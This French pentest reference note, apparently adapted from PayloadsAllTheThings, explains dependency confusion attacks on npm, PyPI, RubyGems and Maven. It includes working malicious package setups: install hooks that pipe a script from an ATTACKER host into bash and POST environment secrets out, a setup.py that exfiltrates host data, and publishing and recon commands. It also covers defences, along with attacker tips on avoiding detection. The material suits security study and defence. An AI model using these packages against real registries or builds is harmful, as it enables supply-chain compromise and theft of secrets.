

# 📦 Dependency Confusion

> [!info] **En 1 phrase**
> Dependency confusion = piéger un installateur de dépendances (npm, pip, gem, maven…) pour qu'il
> télécharge un **package public malveillant** portant le **même nom** qu'un package **privé** interne.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Supply%20Chain%20Attacks/Dependency%20Confusion.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Quand un registre **public** et un registre **privé** hébergent le même nom de package,
> la plupart des gestionnaires choisissent la **version la plus élevée** — souvent celle du registre
> public. Publier `nom-inconnu` en version `99.0.0` sur npm/PyPI suffit pour être installé à la place
> du package privé lors du prochain build.

---

## ⚙️ Le principe

- Une entreprise utilise des packages **privés** (npm, PyPI, RubyGems, Maven…) référencés dans
  `package.json`, `requirements.txt`, `Gemfile`, `pom.xml`, `composer.json`, `go.mod`…
- Beaucoup de ces noms ne sont **pas publiés** sur le registre public.
- L'attaquant **enregistre le même nom** sur le registre public, avec une version **supérieure**.
- Au prochain `npm install` / `pip install` / `mvn install`, l'outil peut résoudre vers le **package
  public malveillant** → exécution de code lors de l'installation (scripts `install`, `postinstall`).

> [!info] 💡 **Impact typique**
> RCE **dans le build CI/CD** ou sur les postes des développeurs → vol de secrets
> (tokens, clés de déploiement), exfiltration de sources, compromission en chaîne (supply chain).

---

## 📦 Registres concernés

| Écosystème | Fichier de déclaration | Registre public |
|---|---|---|
| JavaScript / Node | `package.json` | `npmjs.com` |
| Python | `requirements.txt` / `pyproject.toml` | `pypi.org` |
| Ruby | `Gemfile` | `rubygems.org` |
| Java / Maven | `pom.xml` | `repo1.maven.org` |
| PHP / Composer | `composer.json` | `packagist.org` |
| Docker | `Dockerfile` (images) | `hub.docker.com` |
| Go | `go.mod` | `proxy.golang.org` |

---

## 🎒 Setup du package malveillant

### 1. npm (exemple complet)

```bash
# Créer le package
mkdir dep-conf-poc && cd dep-conf-poc
npm init -y
```

```json
// package.json — mêmes nom/version que le package privé cible, version supérieure
{
  "name": "@target/victim-package",
  "version": "99.0.0",
  "scripts": {
    "preinstall": "node exploit.js",
    "install": "node exploit.js",
    "postinstall": "node exploit.js"
  }
}
```

```js
// exploit.js — exécuté à l'installation, sur la machine du build/dev
const cp = require('child_process');
cp.exec('curl -s http://ATTACKER/shell.sh | bash');      // reverse shell / RCE
cp.exec('env > /tmp/env.txt');                            // dump des secrets d'environnement
fetch('https://ATTACKER/exfil', { method: 'POST', body: JSON.stringify(process.env) });
```

```bash
# Publier sur npm
npm publish --registry https://registry.npmjs.org/
```

### 2. pip / PyPI

```bash
# setup.py — la logique s'exécute pendant l'installation (setup_requires / cmdclass)
```

```python
# setup.py
from setuptools import setup, Command
import urllib.request

class Evil(Command):
    description = "evil"
    user_options = []
    def initialize_options(self): pass
    def finalize_options(self): pass
    def run(self):
        urllib.request.urlopen("https://ATTACKER/x?s=" + open("/etc/hostname").read())

setup(name="victim-package", version="99.0.0",
      cmdclass={"install": Evil, "develop": Evil, "egg_info": Evil})
```

```bash
python setup.py sdist bdist_wheel
twine upload dist/*
```

### 3. RubyGems / Maven

```bash
# gem : même principe — un gemspec qui s'exécute dans l'environnement d'installation
gem build malicious.gemspec && gem push malicious-99.0.0.gem

# maven : plugin ou dependency en version élevée, avec un goal/execution malveillant
# (ex: dependency publiée en 999.0.0 sur Central qui exécute un plugin lors du build)
```

---

## 🧪 Le PoC

```text
1. Enumérer les dépendances privées (fichiers de déclaration, repos internes).
2. Vérifier sur le registre public si le nom est déjà pris.
3. Publier le package avec le MÊME nom + une VERSION SUPÉRIEURE + script d'installation.
4. Attendre un build / un install côté victime.
5. Collisionner (ou pas) le package installé ; l'impact est confirmé par callback HTTP/DNS.
```

```bash
# Callback pour confirmer l'exécution (interactsh / Burp Collaborator)
# → dans exploit.js :   cp.exec("curl http://COLLABORATOR/poc")
# → dans setup.py :     urllib.request.urlopen("http://COLLABORATOR/poc")
```

---

## 🔎 Recherche de noms (recon)

### Sources de noms de packages privés

- Fichiers de déclaration exposés : `package.json`, `requirements.txt`, `Gemfile`, `pom.xml`,
  `composer.json`, `go.mod`, `Dockerfile` (images internes).
- Dépôts **Git publics** de l'entreprise (GitHub search : `org:company package.json`).
- Erreurs / stack traces qui révèlent des noms de modules internes.
- `npm pack`, pages du registre privé, JS bundles minifiés (`webpack`).

### Vérifier la disponibilité du nom

```bash
npm view @scope/victim-package             # existe sur npm ?
curl -s https://registry.npmjs.org/victim-package
python3 -m pip index versions victim-package   # existe sur PyPI ?
curl -s https://pypi.org/pypi/victim-package/json
gem search -r victim-package                # RubyGems
curl -s https://repo1.maven.org/maven2/...   # Maven Central
```

### Outils

- [visma-prodsec/confused](https://github.com/visma-prodsec/confused) — check multi-registres.
- [synacktiv/DepFuzzer](https://github.com/synacktiv/DepFuzzer) — fuzzing de noms + takeover de comptes.
- [IAmStoxe/dependency-confusion-scanner](https://github.com/IAmStoxe/dependency-confusion-scanner) — scanner de repos.

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Scoping** | Utiliser des noms **scopés** (`@entreprise/pkg` npm, `entreprise-*` PyPI) jamais publiés en public |
| **Registre privé obligatoire** | `npm config set registry https://registry.entreprise.com` + `.npmrc` versionné |
| **Verrouillage des versions** | Lockfiles (`package-lock.json`, `pipfile.lock`, `poetry.lock`…) + versions **pinnées** exactes |
| **Priorité au registre privé** | Configurer l'ordre de résolution : registre privé d'abord, pas de fallback public implicite |
| **Résolution par hash** | Vérification d'intégrité (checksum / `resolved` + `integrity` en npm) |
| **Détection de squatting** | Surveillance des nouveaux packages publics reprenant les noms internes (alerte sur le scope) |
| **CI/CD durci** | Environnements éphémères, secrets non réutilisables, revue des scripts `install` |
| **Audit des dépendances** | `npm audit` / `pip-audit` / `osv-scanner` + inventaire des packages privés |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Méthodo d'attaque**
> 1. Lister **toutes** les dépendances (dont transitives et scripts de build).
> 2. Trouver les noms **absents du registre public** → ce sont les cibles.
> 3. Publier la version la plus élevée possible (`99.0.0`), les gestionnaires préfèrent les versions max.
> 4. Utiliser un **callback DNS/HTTP** pour confirmer l'exécution sans casser le build de la victime.

> [!warning] ⚠️ **Pièges**
> - Version minimale dans le fichier (`>=1.0.0`) : publier **99.0.0** écrase presque toujours.
> - Ne **jamais** faire de "cleanup" visible : retirer le package déclenche la suspicion.
> - L'exécution se produit lors de l'**installation**, pas au runtime — penser aux scripts `install`/`postinstall`.
> - Le package publié est **public et persistant** : ne pas y mettre de données de la victime.
> - Attention aux **namespaces** : `@scope/pkg` et `pkg` sont des noms différents.
> - Une collision peut aussi exister sur le **registre privé interne** (package privé jamais publié mais nom réservé).

---

## 🔗 Liens

- [[Insecure Source Code Management|🗄️ SCM]]
- [[API Key Leaks|🔑 API Key Leaks]]
- [[Privilege Escalation Linux|🐧 Privesc Linux]] (chaîne après RCE build)
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Supply Chain Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Supply%20Chain%20Attacks/Dependency%20Confusion.md)
